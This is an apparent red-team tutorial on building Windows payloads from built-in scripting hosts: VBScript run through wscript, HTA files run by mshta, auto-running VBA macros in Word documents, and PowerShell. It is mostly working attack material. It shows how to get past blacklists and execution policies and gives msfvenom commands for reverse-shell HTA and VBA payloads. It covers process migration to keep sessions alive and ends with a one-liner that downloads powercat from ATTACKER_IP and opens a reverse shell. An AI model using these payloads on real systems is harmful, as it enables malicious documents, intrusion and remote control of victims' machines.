 # Crafting Payloads
This will focus on creating payloads on a variety of built in scripting technologies, rather than the typical .exe
## WSH
Windows Scripting Host is a built-in windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a Windows native engine `cscript.exe` (for command-line scripts) and `wscript.exe` (for UI scripts), which are responsible for executing various VBScripts including `vbs` and `vbe`. It is important to note that the VBScript engine runs and executes applications with the same level of access and permission as a regular user.

--- 
Now a simple VBScript code to create a windows message box that displays a message:
```VBScript
Dim message
message = "hallo world"
MsgBox message
```
Then we use `wscripts` in the cmd to run it
```
wscript hello.vbs
```

---
We can also use VBScript to run executable files for things like PoC.
```vbscript
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe"),1,True 
```
Here, we first create an object of the `WScript` library to call the execution payload, which serves like a cmd. Then utilize the `Run` method to execute the payload, which in this case is the `calc.exe`, or run any other command that we want. And also set the Window Style to `1` which means that it would be visible (We can instead use a `0` to hide the window and run the program in the background) and finally set the Wait for Completion value to `True` To wait until the command completes to continue execution. Again to run it `wscript PoC.vbs` in the cmd. We can also use `cscript`.

--- 
If the `.vbs` are blacklisted, then we rename the file to `.txt` and run it with `wscript` like this
```
wscript /e:VBScript C:\Users\red\Desktop\payload.txt
```

## HTA
HTML Application, it allows us to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. The [LOLBINS](https://lolbas-project.github.io) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.

--- 
We can use `ActiveXObject` in our payload as a PoC to execute cmd.exe
```html

<html>
<body>
<script>
	var c = 'cmd.exe'
	new ActiveXObject('WScript.shell').run(c)
</script>
</body>
</html>
```
Then we need to server the payload from a webserver, this can be done with a python server
```sh
python3 -m http.server
```
and just browsing to the payload will automatically download the file, and when ran it will open the cmd on the target machine

---
We can also craft payloads for reverse connections with the help of Metasploit
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f hta-psh -o shell.hta
```
Now when the target opens the file it will create a connection to our listener

---
We can also use Metasploit to generate and server an HTA file. By opening `msfconsole` and going to `exploit/windows/hta_server` we can configure it to create both the file and the webserver. The only difference from a normal listener will be that we need to set `SRVHOST` which will be the IP of the server from which we will host the file. 
## VBA
Visual Basic for Applications,a programming language implemented fro Microsoft applications such as Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications. 
Macros are Microsoft Office applications that contain embedded code written in VBA. It is used to create custom functions to speed up manual tasks.

---
We can take advantage of macros to create malicious Microsoft documents. (We can found macros under the view tab on each application). Once here we can create our macro, note that we need to select for which document that macro will be used in the `Macros in` drop down list.
Now we can start coding, at the start it will display us a simple function with the same name of our macro
```vb
Sub Test()
'
'
' Test Macro
'
'
End Sub
```
We can add a simple message pop up with the following, and run it with either F5 or `Run`
```vb
Sub Test()
	MsgBox("Hallo")
End Sub
```
Now in order to execute the VBS code automatically once the document gets opened we can use built-in functions such as `AutoOpen` and `Document_open`.
```vb
Sub Document_Open()
  test
End Sub

Sub AutoOpen()
  test
End Sub

Sub test()
   MsgBox ("Hallo there")
End Sub
```
It is important to note that to make the macro work we need to save the document in a Macro-Enabled format such as `.doc` or `.docm`. Now once we reopen the document file, Word will show a security message indicating that "Macros have been disabled" as they are by default, and just by clicking on "Enable content" our macro will get executed. And the option will remain persistent tr

---
For a quick PoC and we could take advantage of `Wscript` once again
```vb
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run (payload),1
End Sub
```
Similar to [[Payload Delivery#WSH|WSH]] the 1 after the payload means that the payload will run as a visible windows (0 for not visible). 

---
Like with all others, we can use msfvenom to create payloads
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f vba
```

---
Also, is worth noting that a reverse shell from this method, will only last as long as the document remains open, so as soon as we get a connection we should try to migrate the process, we can do this inside the session in Metasploit with
```
run post/windows/manage/migrate
```
## PSH
PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime in `.NET` with some exceptions for legacy uses. Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations and many others.

---
We can start by creating a simple PSH script
```powershell
Write-Output "Hallo there"
```
We save the file as a `.ps1`, and we can run it inside the cmd with
```
powershell -File file.ps1
```
Now, probably it will throw an error due to PowerShell's execution policy. By default this execution policy is set to `Restricted`, meaning that it permits individual commands but not run any scripts. We can change this by running the following in the PowerShell CLI
```powershell
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
Microsoft also provides ways to disable this restriction. One of these is to give an argument option to the PowerShell command to change into to our desired setting. For example, we could change it to `bypass` policy, so it is not blocked or restricted. So the command will look like this
```
powershell -ex bypass -File file.ps1
```

---
Now, we can try getting a reverse shell using one of the tools written in PowerShell [Powercat](https://github.com/besimorhino/powercat). We can download it from GitHub and run a webserver to deliver it.
```shell
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8080
```
Then we set up our [[Netcat]] listener and from the target machine we download the payload and execute it using PowerShell
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER_IP:8080/powercat.ps1');powercat -c ATTACKER_IP -p 443 -e cmd"
```
